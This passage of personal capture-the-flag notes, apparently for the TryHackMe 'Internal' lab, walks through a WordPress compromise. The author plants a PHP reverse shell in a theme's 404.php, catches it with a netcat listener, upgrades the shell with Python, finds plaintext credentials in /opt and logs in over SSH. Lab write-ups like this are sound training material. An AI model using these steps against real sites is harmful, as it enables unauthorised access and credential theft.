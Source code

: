 # to get a reverse shell --> upload to the theme editor (ref second link above)
        # I have previously used the testmonkey one, so I will try to use this again
        # I edit the 404.php error page (copy the contents of php-reverse-shell - modifying LHOST and LPORT)
        (kali㉿kali)-[~/THM/practice/internal]
        └─$ nc -lvnp 4444             
        listening on [any] 4444 ...
        # to execute it, I go to the error page (I think)
        http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php
        # and it spawned a shell
        (kali㉿kali)-[~/THM/practice/internal]
        └─$ nc -lvnp 4444                                                                                       1 ⨯
        listening on [any] 4444 ...
        connect to [10.11.59.68] from (UNKNOWN) [10.10.132.94] 39590
        Linux internal 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
         18:52:44 up 14 min,  0 users,  load average: 0.00, 0.04, 0.08
        USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
        uid=33(www-data) gid=33(www-data) groups=33(www-data)
        /bin/sh: 0: can't access tty; job control turned off
        $ 
        # establishing a better shell
        $ python -c 'import pty; pty.spawn("/bin/bash")'
        www-data@internal:/home$

# from here, some manual enumeration was required --> I could upload linPEAS and use that but creator made sure it would not pick up obvious files like password.txt
# I navigated to /opt
www-data@internal:/opt$ cat wp-save.txt
cat wp-save.txt
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:bubb13guM!@#123
        # I believe this can be used for ssh? lets try
(kali㉿kali)-[~/THM/practice/internal]
└─$ ssh aubreanna@internal.thm                                                                        130 ⨯
Warning: Permanently added the ECDSA host key for IP address '10.10.132.94' to the list of known hosts.
aubreanna@internal.thm's password: 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-112-generic x86_64)
